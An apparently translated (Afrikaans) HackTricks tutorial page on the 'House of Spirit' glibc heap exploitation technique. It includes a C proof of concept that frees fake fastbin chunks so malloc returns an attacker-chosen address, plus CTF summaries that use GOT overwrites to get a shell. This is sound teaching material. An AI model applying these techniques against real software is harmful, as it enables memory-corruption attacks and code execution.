 # House of Spirit

{{#include ../../banners/hacktricks-training.md}}

## Basiese Inligting

### Kode

<details>

<summary>House of Spirit</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### Doel

- In staat wees om 'n adres in die tcache / fast bin by te voeg sodat dit later moontlik is om dit toe te ken

### Vereistes

- Hierdie aanval vereis dat 'n aanvaller in staat is om 'n paar vals vinnige stukke te skep wat die grootte waarde daarvan korrek aandui en dan in staat wees om die eerste vals stuk vry te stel sodat dit in die bin kom.

### Aanval

- Skep vals stukke wat sekuriteitskontroles omseil: jy sal 2 vals stukke nodig hê wat basies die korrekte groottes op die korrekte plekke aandui
- Op een of ander manier die eerste vals stuk vrystel sodat dit in die fast of tcache bin kom en dan dit toe te ken om daardie adres te oorskryf

**Die kode van** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house_of_spirit/house_spirit_exp/index.html) **is wonderlik om die aanval te verstaan.** Alhoewel hierdie skema van die kode dit redelik goed opsom:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
> [!NOTE]
> Let daarop dat dit nodig is om die tweede stuk te skep om 'n paar sanity checks te omseil.

## Voorbeelde

- **CTF** [**https://guyinatuxedo.github.io/39-house_of_spirit/hacklu14_oreo/index.html**](https://guyinatuxedo.github.io/39-house_of_spirit/hacklu14_oreo/index.html)

- **Libc infoleak**: Deur 'n overflow is dit moontlik om 'n pointer te verander om na 'n GOT adres te wys om 'n libc adres via die lees aksie van die CTF te lek.
- **House of Spirit**: Deur 'n teen te misbruik wat die aantal "gewere" tel, is dit moontlik om 'n vals grootte van die eerste vals stuk te genereer, dan deur 'n "boodskap" te misbruik, is dit moontlik om die tweede grootte van 'n stuk te vals en uiteindelik deur 'n overflow is dit moontlik om 'n pointer te verander wat vrygestel gaan word sodat ons eerste vals stuk vrygestel word. Dan kan ons dit toewys en binne-in daarvan gaan die adres wees waar "boodskap" gestoor word. Dan is dit moontlik om dit na die `scanf` ingang binne die GOT tabel te laat wys, sodat ons dit kan oorskryf met die adres na system.\
Volgende keer dat `scanf` aangeroep word, kan ons die invoer `"/bin/sh"` stuur en 'n shell kry.

- [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
- **Glibc leak**: Ongeïnitialiseerde stapelbuffer.
- **House of Spirit**: Ons kan die eerste indeks van 'n globale reeks van heap pointers verander. Met 'n enkele byte verandering, gebruik ons `free` op 'n vals stuk binne 'n geldige stuk, sodat ons 'n oorvleueling van stukke situasie kry nadat ons weer toewys. Met dit werk 'n eenvoudige Tcache vergiftiging aanval om 'n arbitrêre skrywe primitief te verkry.

## Verwysings

- [https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit)

{{#include ../../banners/hacktricks-training.md}}
